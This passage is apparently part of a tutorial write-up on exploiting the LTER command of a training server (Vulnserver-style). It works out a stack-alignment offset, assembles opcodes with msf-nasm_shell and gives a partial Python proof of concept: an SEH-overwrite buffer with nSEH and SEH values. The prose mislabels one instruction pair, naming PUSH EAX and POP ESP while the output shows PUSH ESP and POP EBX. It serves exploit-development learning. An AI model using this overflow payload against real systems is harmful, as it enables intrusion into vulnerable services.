 ![](/assets/img/LTER/11.png)

##### The next step, is to calculate the difference between 0x017BFFFC and 0x017BECA4, which can be easily done with the following program.

```term
#!/bin/bash

printf "0x%X\n" $(($1 - $2))
```

```term
root@whitecr0wz:~/Exploit-Dev/LTER# hexcalc 0x017BFFFC 0x017BECA4 
0x1358
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### As given, 0x1358 is the value needed to add to 0x017BECA4 in order to become 0x017BFFFC.

##### The opcodes for such operation are found in msf-nasm_shell.

```term
nasm > add ax, 0x1358
00000000  66055813          add ax,0x1358
nasm > 
```

##### The next step is to find the opcodes of PUSH EAX, POP ESP, this is done once again in msf-nasm_shell.

```term
nasm > PUSH ESP
00000000  54                push esp
nasm > POP EBX
00000000  5B                pop ebx
nasm > 
```

###### PoC code:

```term
import socket, sys, struct

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]
```